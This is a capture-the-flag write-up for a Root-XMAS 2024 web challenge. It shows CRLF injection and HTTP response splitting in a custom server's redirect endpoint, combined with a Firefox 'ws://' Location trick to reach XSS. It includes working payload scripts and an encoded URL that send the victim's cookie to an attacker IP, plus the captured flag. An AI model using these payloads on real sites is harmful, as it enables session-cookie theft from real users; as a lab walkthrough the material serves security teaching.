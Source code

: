 ```yaml
---
title: Root-XMAS 2024 Day 08 - Custom HTTP Server
feed: show
permalink: /RootXMAS_2024_08
date: 08-12-2024
summary: You redirected to the wrong neighbourhood.
---
```

### summary


A web challenge with a redirection endpoint allowing any user input. An CLRF injection / # HTTP response splitting allows to insert custom headers and body to the server's response.
However, as the returned response is a 302 redirect, to force the browser staying on the page and to execute our XSS payload, we set the location of the redirect to a Websocket (`Location: ws://anything`)
### recon

Santa has completely recreated a web framework and asserts it's completely safe! He even provided the source code so we can audit it!

Let's check it out. On the `app.js` we have listed all the endpoints, and one gets our attention: `/api/report`

defined in `reporter.js` we have:
```js
  static async generateReport(url) {
	...
	browser = await firefox.launch(...);
	const page = await browser.newPage();

	const cookie = {
        name: 'FLAG',
        value: 'RM{REDACTED}',
        domain: '127.0.0.1',
        path: '/',
        httpOnly: false,
        secure: false,
      };

      await page.context().addCookies([cookie]);

      await page.goto(url, {
        waitUntil: 'domcontentloaded',
        timeout: 30000,
      });
...
```

Ok, so the report endpoint starts a Firefox instance with a flag cookie for the localhost, so we just have to find an XSS on it, and we can steal it!
And look, there's an `/api/xss` endpoint! maybe we can find an error in its sanitizer, let's check it out! in `sanitizer.js`

```js
static escapeHtml(str) {
	return str.replace(/[&<>"']/g, char => htmlEntities[char]);
}

static xss(input) {
	return this.escapeHtml(input);
}
```

Oh... no, it's correctly escaped, there's really nothing we can do... rats!
There are also some other endpoints, but they do not take user input as parameters (`/api/xml`), or are properly sanitized (`/api/sql`)

But wait, we have the classic and juicy endpoint... `/api/redirect` !
let's check it out in `response.js`

```js
  redirect(location, isPermanent = false) {
	...
    const head = `HTTP/1.1 ${statusCode} Found\r\nLocation: ${location}\r\nConnection: close\r\n\r\n`;
    socket.write(head);
	...
  }
```

Right there! our user input, `location` is not escaped, so we can add `\r\n` characters to add our custom headers, and even HTML body, including javascript! it's an [HTTP Response splitting](https://owasp.org/www-community/attacks/HTTP_Response_Splitting) vuln, a form of  [CLRF injection](https://book.hacktricks.xyz/pentesting-web/crlf-0d-0a#http-response-splitting) .
So let's try it out!
### solution

Here is a script to create a payload with an HTML body containing a script exfiltrating the cookie, and correct  `Content-Type` and `Content-Length` headers

```js
location_header = "test"
htmlPayload = '<html><script>document.location="http://11.111.111.111:49153?cookie="+document.cookie</script></html>'

clrfPayload = location_header + "\r\nContent-Type: text/html\r\nContent-Length: " + htmlPayload.length + "\r\n\r\n" + htmlPayload

encodedPayload = encodeURIComponent(clrfPayload)
redirectionUrl = "http://dyn-01.xmas.root-me.org:37120/api/redirect?url=" + encodedPayload
document.location = redirectionUrl
```

and it works! when testing in Caido we get this response from the server!

```c
HTTP/1.1 302 Found
Location: /test
Content-Type: text/html
Content-Length: 113

<html><script>document.location="http://11.111.111.111:49153?cookie="+document.cookie</script></html>
Connection: close
```

However, when we test in the browser... we are redirected to our `location_header` we defined at the start of our CLRF payload! , so `/test`. Our Javascript is never interpreted!

More strange behavior, if we put an empty `Location` header, we see in the devtools that Firefox sends multiple redirects requests before giving up. strange behavior... 

We are on the right track, surely. Let's search online "avoid 302 redirection crlf injection"...
and we find this wonderful blog page, [jorianwoltjer.com : web/header-crlf-injection](https://book.jorianwoltjer.com/web/header-crlf-injection)  that gives us payloads that force Firefox to stay on the page and execute our Javascript!

```js
// Firefox
Location: ws://anything
Location: wss://anything
Location: resource://anything

// Chrome
Location:
```

Hey, so we really were on the right track, our empty payload would have worked on Chrome!
So we just have to set on top of our script

```js
location_header = "ws://anything"
```

and then we can trigger the XSS, my server recieves the request!
Now to send it to the `/api/report` endpoint , and we can flag!

The full script below:
We re-encode the redirect url to send it to the report endpoint.
Also remember that we have to change the host of the redirect endpoint as `127.0.0.1` for the admin cookie to be set :

```js
location_header = "ws://anything" //firefox only
htmlPayload = '<html><script>document.location="http://11.111.111.111:49153?cookie="+document.cookie</script></html>'

clrfPayload = location_header + "\r\nContent-Type: text/html\r\nContent-Length: " + htmlPayload.length + "\r\n\r\n" + htmlPayload

eRedirectPayload = encodeURIComponent(clrfPayload)
redirectionUrl = "http://127.0.0.1:3000/api/redirect?url=" + eRedirectPayload

eReportPayload = encodeURIComponent(redirectionUrl)
portInstance = 37120
reportUrl = "http://dyn-01.xmas.root-me.org:" + portInstance + "/api/report?url=" + eReportPayload
```

We get a final report URL like this:

```bash
http://dyn-01.xmas.root-me.org:37120/api/report?url=http://127.0.0.1%3A3000%2Fapi%2Fredirect%3Furl%3Dws%253A%252F%252Fanything%250D%250AContent-Type%3A%20text%2Fhtml%250D%250AContent-Length%3A%20113%250D%250A%250D%250A%3Chtml%3E%3Cscript%3Edocument.location%3D%22http%3A%2F%2F11.111.111.111%3A49153%3Fcookie%3D%22%252Bdocument.cookie%3C%2Fscript%3E%3C%2Fhtml%3E
```

and we get the flag on our SimpleHTTPServer:

```http
GET /?cookie=FLAG=RM{Damnn_Chrome_And_Firefox_4re_S0_different} HTTP/1.1" 200 -
```